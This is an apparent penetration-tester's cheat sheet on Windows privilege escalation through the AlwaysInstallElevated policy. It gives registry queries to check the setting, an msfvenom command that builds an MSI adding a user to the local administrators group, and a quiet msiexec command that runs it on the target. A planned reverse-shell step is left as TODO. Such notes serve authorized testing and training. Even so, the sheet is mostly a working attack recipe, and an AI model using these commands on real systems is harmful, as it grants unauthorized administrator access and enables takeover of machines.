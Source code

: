 ```yaml
---
title: always install elevated
category: win privesc
order: 1
---
```


[_WPE-09 - Always Install Elevated](https://pentestlab.blog/2017/02/28/always-install-elevated/)

Windows environments provide a group policy setting which allows a regular user to install a Microsoft Windows Installer Package (MSI) with system privileges

## | 1 verify
```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## | 2 Generate payload on attacking machine:
```
msfvenom -p windows/exec CMD='net localgroup administrators minilow /add' -f msi-nouac -o setup.msi
```
## | 3 Run it on the target machine:
```
msiexec /quiet /qn /i C:\Temp\setup.msi
```

## | 4 Reverse shell con system ya en el msi
TODO
